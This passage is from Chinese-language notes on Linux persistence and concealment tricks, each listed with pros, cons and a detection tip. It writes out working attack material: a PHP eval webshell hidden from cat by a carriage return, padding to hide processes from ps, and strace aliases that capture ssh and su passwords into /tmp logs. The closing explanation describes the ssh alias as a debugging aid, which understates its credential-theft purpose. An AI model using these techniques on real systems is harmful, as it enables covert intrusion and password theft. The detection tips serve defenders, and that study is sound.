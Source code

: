 优点：通过查看/proc/`pid`/cmdline查看不到具体执行了什么命令或恶意脚本。缺点：仍可以看到有vim进程。排查：检测对应vim进程号虚拟目录的map文件是否有python字眼。

#### 障眼法之终端解析\r导致的问题

```
echo -e "<?=\`eval(\$_POST[good]\`);?>\r<?='PHP Test Page >||<                  ';?>" >/var/www/html/test.php
```

优点：通过终端命令例如cat、more等命令查看不到恶意代码,适合隐藏一句话木马等。缺点：易被检测，只是通过终端命令查看的时候看不到恶意代码，而通过其它读文件操作或者通过vim等工具进行编辑查看的时候仍可以查看到恶意代码。排查：使用编辑器或者一般的webshell扫描工具即可检测。

#### 障眼法之命令过长导致截断的问题

在使用ps进行进程查看的时候，不知道有没有人注意到这样一个问题，命令很长被截断，终端显示有时候为了美观，可能会截断较长的命令。同样在使用ps命令查看进程的时候，也存在这种问题。可以在其填充大量的空格进行截断，那么就可达到“进程隐藏”的效果。

优点：简单。缺点：易被检测到。排查：通过ps -aux|grep 可疑进程的pid 即可显示完全，或者使用ps aux | less -+S、ps aux | cat或ps aux | most -w等命令进行查看。

#### strace记录ssh登录密码

```
alias ssh='strace   -o   /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 ssh'  
也可记录 su密码 alias su='strace   -o   /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 su'
```

对第一行命令的解释：

```
这个 Linux 命令使用了 alias 命令来创建一个新的别名 ssh，使得每次执行 ssh 命令时，都会附加一些额外的调试和日志记录功能。具体来说，这个命令将 ssh 命令重定义为 strace 命令的一部分。以下是这个命令的详细解释：
1. alias ssh='...'
这个部分使用 alias 命令创建了一个别名 ssh。当你在命令行中输入 ssh 时，它实际上会执行等号右侧的命令。
2. strace
strace 是一个调试工具，用于跟踪系统调用和信号。它可以显示程序执行过程中调用的所有系统调用，并输出相关信息。
3. -o /tmp/sshpwd-date '+%d%h%m%s'.log
这个选项指定了 strace 的输出日志文件：
/tmp/sshpwd-... 是日志文件的路径和名称。
`date '+%d%h%m%s'` 是一个命令替换，会执行 date 命令并获取当前日期和时间。
%d：当前月份的日期（01 到 31）
%h：当前月份的缩写名称（例如：Jan, Feb）
%m：当前月份（01 到 12）
%s：自 1970-01-01 00:00:00 UTC 到当前时间的秒数（UNIX 时间戳）
这些选项组合在一起生成一个唯一的日志文件名，例如：/tmp/sshpwd-26Nov1126071747.log。
4. -e read,write,connect
这个选项指定 strace 仅跟踪特定的系统调用：
read：跟踪读取操作。
write：跟踪写入操作。
connect：跟踪网络连接操作。
5. -s2048
这个选项指定 strace 显示系统调用参数的最大字节数。在这里，设置为 2048 字节。
6. ssh
这是实际执行的 ssh 命令。重定义后的 ssh 命令将执行 strace 以监视系统调用，并将这些调用记录到指定的日志文件中。
结论
这个 alias 命令的功能是在每次执行 ssh 命令时，使用 strace 工具跟踪 ssh 命令的 read、write 和 connect 系统调用，并将这些调用记录到一个以当前日期和时间为名称的日志文件中。这对于调试和分析 ssh 命令的行为非常有用，因为它可以帮助你了解 ssh 在后台进行了哪些系统调用，以及这些调用的具体细节。
```
